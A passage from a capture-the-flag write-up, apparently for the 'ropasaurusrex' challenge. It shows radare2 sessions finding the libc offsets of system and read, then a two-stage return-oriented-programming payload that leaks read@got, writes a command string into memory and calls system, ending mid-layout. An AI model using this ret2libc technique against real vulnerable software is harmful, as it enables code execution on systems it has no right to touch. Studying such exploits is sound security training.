 Let's see what libc we're using
```
$ r2 -d ropasaurusrex
Process with PID 16952 started...
PID = 16952
r_debug_select: 16952 16952
[0xf76fd0d0]> dcu entry0
Continue until 0x08048340
[0x08048340]> dm~libc
[0x08048340]> 
```

```
$ r2 /lib/i386-linux-gnu/libc.so.6
[0x00019be0]> is~name=system
vaddr=0x00057450 paddr=0x00040100 ord=1443 fwd=NONE sz=56 bind=UNKNOWN type=FUNC name=system
[0x00019be0]> is~name=read
vaddr=0x000f2800 paddr=0x000db4b0 ord=950 fwd=NONE sz=125 bind=UNKNOWN type=FUNC name=read
[0x00019be0]>
```

Or, since we're only interested in physical adresses:

```
$ r2 /lib/i386-linux-gnu/libc.so.6
[0x00019be0]> is~name=system[1]
paddr=0x00040100
[0x00019be0]> is~name=read[1]
paddr=0x000db4b0
[0x00019be0]>
`
Now all that is left is to do the same stack smash, then call system.
System looks like this
```
int system(const char *command);
```
So we just want
```
system(0x08049530 /*address of the string we wrote*/);
```
Then were done!
Let's see what our complete payload looks like:
```
STAGE 1
--frame_1--
[write@plt]
[pppr     ] // return address
[1        ]
[read@got ]
[4        ]
--frame_2--
[vuln_func]

STAGE2
--frame_1--
[read@plt   ]
[pppr       ]
[0          ]
[writeaddr  ]
[len(cmd)+1 
--frame_2--
[system   ]
[exit     ]
[writeaddr]
